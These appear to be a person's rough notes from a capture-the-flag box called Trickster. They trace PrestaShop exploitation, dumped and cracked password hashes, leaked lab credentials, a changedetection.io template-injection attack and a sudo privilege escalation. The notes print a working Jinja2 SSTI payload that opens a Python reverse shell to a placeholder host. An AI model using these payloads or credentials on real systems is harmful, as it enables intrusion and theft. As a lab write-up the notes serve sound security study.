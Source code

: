 ___


port 22 and 80

shop subdomain has stuff the other looks kinda empty


mysql as database and PrestaShop as CMS it looks 



Email us: [admin@trickster.htb](mailto:admin@trickster.htb)



Version pc.7.3

NCC Version: ncc-5.2.0

Failed to complete request to https://iam-proxy.ntnx-base:8445/api/iam/authz/v1/proxy after 5 tries. Error: <urlopen error EOF occurred in violation of protocol (_ssl.c:1147)>



*.git/config found*
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[user]
	name = adam




*git directory is exposed*
# Index of /.git




*robots.txt has hella dirs*
this file is auto generated on presta shop though




*found modules*

============================ Modules =======================================

[+] Module: blockreassurance
[+] Module: ps_socialfollow
[+] Module: ps_searchbar
[+] Module: productcomments
[+] Module: blockwishlist
[+] Module: ps_imageslider
[+] Module: ps_shoppingcart
[+] Module: ps_banner
[+] Module: ps_emailalerts
[+] Module: ps_emailsubscription




ADAM is a name in the repo apparently




*things to check*
vulnerable presta shop modules
some file with creds
user admi or adam or some other user with git push on repo



*git commit mssg*
cat COMMIT_EDITMSG
update admin pannel




adam <adam@trickster.htb> 1716538399 -0400	commit (initial): update admin pannel



*this was the commit I have to find the diff for*
0cbc7831c1104f1fb0948ba46f75f1666e18e64c




*truffle hog flagged this no idea why*
└> nvim /home/ew/box/trickster/git_dump/.git/objects/62/585aa06f38d994b20e6345f095996170043034



*this has dep and vers of some stuff*
└> nvim /home/ew/box/trickster/git_dump/admin634ewutrx1jgitlooaj/themes/new-theme/package-lock.json




*I think this whole repo is just the admin pannel thats the name at least*

*I think this is admin panel*
admin634ewutrx1jgitlooaj



*that is the admin panel and I also got the version*

8.1.5




i think som vulns here


*I think this the RCE right here*
https://ayoubmokhtar.com/post/png_driven_chain_xss_to_remote_code_execution_prestashop_8.1.5_cve-2024-34716/


ok got shell


I imagine is probs adam the user



app/config -> parameters.php file has a bunch of shit probs it




*finally some hashes*

MariaDB [prestashop]> select * from ps_employee;
+-------------+------------+---------+----------+-----------+---------------------+--------------------------------------------------------------+---------------------+-----------------+---------------+--------------------+------------------+----------------------+----------------------+----------+----------+-----------+-------------+----------+---------+--------+-------+---------------+--------------------------+------------------+----------------------+----------------------+-------------------------+----------------------+
| id_employee | id_profile | id_lang | lastname | firstname | email               | passwd                                                       | last_passwd_gen     | stats_date_from | stats_date_to | stats_compare_from | stats_compare_to | stats_compare_option | preselect_date_range | bo_color | bo_theme | bo_css    | default_tab | bo_width | bo_menu | active | optin | id_last_order | id_last_customer_message | id_last_customer | last_connection_date | reset_password_token | reset_password_validity | has_enabled_gravatar |
+-------------+------------+---------+----------+-----------+---------------------+--------------------------------------------------------------+---------------------+-----------------+---------------+--------------------+------------------+----------------------+----------------------+----------+----------+-----------+-------------+----------+---------+--------+-------+---------------+--------------------------+------------------+----------------------+----------------------+-------------------------+----------------------+
|           1 |          1 |       1 | Store    | Trickster | admin@trickster.htb | $2y$10$P8wO3jruKKpvKRgWP6o7o.rojbDoABG9StPUt0dR7LIeK26RdlB/C | 2024-05-25 13:10:20 | 2024-04-25      | 2024-05-25    | 0000-00-00         | 0000-00-00       |                    1 | NULL                 | NULL     | default  | theme.css |           1 |        0 |       1 |      1 |  NULL |             5 |                        0 |                0 | 2025-09-19           | NULL                 | 0000-00-00 00:00:00     |                    0 |
|           2 |          2 |       0 | james    | james     | james@trickster.htb | $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm | 2024-09-09 13:22:42 | NULL            | NULL          | NULL               | NULL             |                    1 | NULL                 | NULL     | NULL     | NULL      |           0 |        0 |       1 |      0 |  NULL |             0 |                        0 |                0 | NULL                 | NULL                 | NULL                    |                    0 |
+-------------+------------+---------+----------+-----------+---------------------+--------------------------------------------------------------+---------------------+-----------------+---------------+--------------------+------------------+----------------------+----------------------+----------+----------+-----------+-------------+----------+---------+--------+-------+---------------+--------------------------+------------------+----------------------+----------------------+-------------------------+----------------------+


*cracked a hash james ssh pass *
alwaysandforever 


damn wasn't that bad but took me a min


*ok what now -> priv esc?*

-either crack more hashes for lateral movement
-check what james owns on filesystem
-theres som bullshit on opt
-connect to chrome port (idk tho that might b just box functionality)



*runner user might be click XSS on the site as well as running this might be able to connect with chrome debug feature*
 /home/runner/prestashop/chromedriver --port=34627 


runc is running a container

I saw a sendmail command on pspy




okay seems like james has no interesting files that he owns




*prusaslicer in opt can get me rce by modifying the .mf3 file -> lateral or priv esc? r there processes running that?*




2025/09/20 20:45:01 CMD: UID=0    PID=9802   | /usr/sbin/sendmail -FCronDaemon -i -B8BITMIME -oem root






sudo nmap -sSVC localhost -p35023 --vv -Pn -> running golang http server 

not chrome debug port 




*changedetection.py wtf is this*

2025/09/20 21:16:59 CMD: UID=0    PID=11186  | python ./changedetection.py -d /datastore 




so container is running but no ports from it are forwarded on the locahost

have to access the ip directly at the port wich is 5000 default for this service


so this is docker bridge (virtual switch)

docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.1


addresses for containers start at 172.17.0.2 and increment



SSTI on jinja2 template server side RCE 

https://www.hacktivesecurity.com/blog/2024/05/08/cve-2024-32651-server-side-template-injection-changedetection-io/



# rev shell payload

{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"x.x.x.x\",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'")}}{%endif%}{% endfor %}





# ok got root on docker container

 cat secret.txt
5fce75c64d33acf05d2d3b21d29e693d992f240d5c440310cff3edfb743c64a5# 

wtf is this




            "notification_urls": [],
            "pager_size": 50,
            "password": "yyyZe28Iu0oP02jyCsmZXQGPgzdi4yoEqLuvJ4HEysNflXTd8YoRAIr6yDEVcDc//hijc+HKgjTr2qinYRknig==",
            "render_anchor_tag_content": false,
            "schema_version": 14,
            "shared_diff_access": false,
            "webdriver_delay": null,





*secret.txt*
5fce75c64d33acf05d2d3b21d29e693d992f240d5c440310cff3edfb743c64a5


*password*
"password": "yyyZe28Iu0oP02jyCsmZXQGPgzdi4yoEqLuvJ4HEysNflXTd8YoRAIr6yDEVcDc//hijc+HKgjTr2qinYRknig==",





*found in one of the backup files*

                'database_name' => 'prestashop' ,                                                                                                                      
                'database_user' => 'adam' ,                                                                                                                            
                'database_password' => 'adam_admin992'





sudo -l 

User adam may run the following commands on trickster:
    (ALL) NOPASSWD: /opt/PrusaSlicer/prusaslicer




*if can run sudo as prusa priv esc*

https://github.com/suce0155/prusaslicer_exploit




